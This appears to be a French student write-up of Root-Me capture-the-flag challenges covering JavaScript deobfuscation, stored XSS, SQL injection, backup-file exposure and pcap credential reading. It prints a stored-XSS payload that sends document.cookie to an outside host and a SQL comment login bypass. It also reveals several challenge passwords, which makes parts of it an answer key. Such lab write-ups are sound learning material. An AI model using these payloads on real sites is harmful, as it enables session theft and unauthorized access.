 # RootMe
RootMe du groupe Gabriel C, Benjamin D et Romain M


Challenge client web

Javascript - Obfuscation 3

Première tentative :

Essayer différents password de base :
-admin -0000 -1234 -motdepasse -code
Idée non concluante  

Deuxième tentative :

Regarder dans le code et je me rend compte que dans tout les cas il indique que le mdp est faux dans il faut rentrer le mdp directement sur la page daceuil .
Lecture de la ligne : « var pass = "70,65,85,88,32,80,65,83,83,87,79,82,68,32,72,65,72,65"; »
Essaie des différents chiffres en tant que mot de passe.
Idée non concluante  

Troisième tentative :

Lecture de la ligne : » p += String.fromCharCode((o = tab2[i])); »
Le « fromCharCode » prouve qu’il y a une conversion d’un type de caractère dans un tableau
Le seul tableau qui me vient a l’esprit c’est la table d’ascii
Je passe cette ligne de nombre dans le tableau et le rentre dans le mot de passe.
« "70,65,85,88,32,80,65,83,83,87,79,82,68,32,72,65,72,65" »
Idée non concluante  

Quatrième tentative :

Je prends cette ligne et fait pareil.
\x35\x35\x2c\x35\x36\x2c\x35\x34\x2c\x37\x39\x2c\x31\x31\x35\x2c\x36\x39\x2c\x31\x31\x34\x2c\x31\x31\x36\x2c\x31\x30\x37\x2c\x34\x39\x2c\x35\x30
Idée non concluante  

Cinquième tentative :

Puis je sélectionne cette ligne et je commence à le convertir en décimal car généralement le code son en décimal.
 « \x35\x35\x2c\x35\x36\x2c\x35\x34\x2c\x37\x39\x2c\x31\x31\x35\x2c\x36\x39\x2c\x31\x31\x34\x2c\x31\x31\x36\x2c\x31\x30\x37\x2c\x34\x39\x2c\x35\x30 »
On obtient 55,56,54,79,115,69,114,116,107,49,5 ce n’est pas le mdp.
Idée non concluante  

Sixième tentative :


Je décide donc d’analyser et d’effectuer un 
console.log(String.fromCharCode(55,56,54,79,115,69,114,116,107,49,50)); » et cela nous donne donc le mdp.
Ce qui donne : 786OsErtk12. 
Chalenge réussi 


XSS - Stockée 1

Première tentative : 

Je regarde dans le code au cas où mais il y a aucun indice contenant le mdp mais je remarque que le champ texte est vulnérable à des injections de balise HTML et permet ainsi l'injection de code. Alors je fais un test en mettant <script>Alert.alert(« yo »)<script> et je suis sur la bonne piste car il affiche un pop-up donc le champ de texte est bien vulnérable à l’ingestion de code.

Bonne piste alors je continue 

Grâce au site : Inspecter les | de requête HTTP Inspecteur de demande (requestinspector.com)
Je peux inspecter les requêtes et obtenir les cookies
  
J’écris cette commande dans le contenue du message est envoie le message :

« <script>window.location="http://sandbox-209707.appspot.com/" + document.cookie;</script> »
Puis inspecter les logs du site et je tombe sur ça :
![image](https://user-images.githubusercontent.com/91453648/168331861-df322ad8-bc99-4691-a964-0e6e18097df6.png)
 

Chalenge réussi 

SQL injection - Authentification
Première tentative :

Essayer différents password de base :
-admin -0000 -1234 -motdepasse -code
On obtient alors une erreur avec le mot clés "near".
Idée non concluante  

Deuxième tentative :

Comme la base de données est une base sql on peux essayer de mettre une balise de commentaire « */ » pour que ca ne prenne pas en compte le contenue de ce commentaire.
Login :  « admin ‘/**/ » 
« ‘ » est ici car c’est username`='XXXX’
Idée non concluante

Troisième tentative :  

Essayer de laisser ouvert la ligne de commentaire pour « supprimer » le mdp ?
Ce qui donnerai « admin' /* » et en mdp n’importe quoi car c’est en commentaire.
Il suffit d’utiliser le même mdp pour valider le défis.

Chalenge réussi 



Web serveur: 

Fichier de sauvegardes :

Le challenge nous mène sur une page dont l’url est la suivante : 
« http://challenge01.root-me.org/web-serveur/ch11/ »

On ajoute à la fin de cet URL “index.php~” qui va donc nous permettre de visualiser le contenu du fichier. 

 

Le mot de passe est donc apparent dans le fichier. 
La solution est   “OCCY9AcNm1tj”.



Install Files:

En observant le code source de la page, on trouve ceci : 

 

Après quelque recherche sur google sur phpbb, je suis tombé sur ca: 

 

J’ai donc ajouté à l’url phpbb/install/ puis suis arrivé sur la page ci-dessous. 

 

Après avoir installé le fichier “install.php”, on obtient le message suivant : 










Réseaux: 

Authentification twitter :

On récupère le document “ch3.pcap” et on l’ouvre avec wireshark. 

On va dans Hypertext Transfer Protocol, puis dans Autorization, ou il y a les lignes Credentials : usertest:password 

Le mot de passe est donc “password”.


